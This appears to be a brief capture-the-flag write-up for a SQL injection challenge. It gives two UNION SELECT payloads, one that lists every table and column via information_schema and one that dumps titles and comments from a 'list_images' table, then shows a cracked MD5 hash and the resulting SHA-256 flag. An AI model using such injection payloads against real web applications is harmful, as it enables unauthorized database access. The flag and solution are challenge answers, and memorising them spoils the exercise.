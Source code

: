 first use this to get all collumns of all tables:
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns

and look for "images" (Ctrl+F)

Then let's get comment and title from table "list_images"
1 AND 1=2 UNION SELECT title, comment FROM list_images

We can see one telling us to sha256 this md5 encoded string : 1928e8083cf461a51303633093573c46 = albatroz
Then "albatroz" to Sha256 = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
This is our flag !
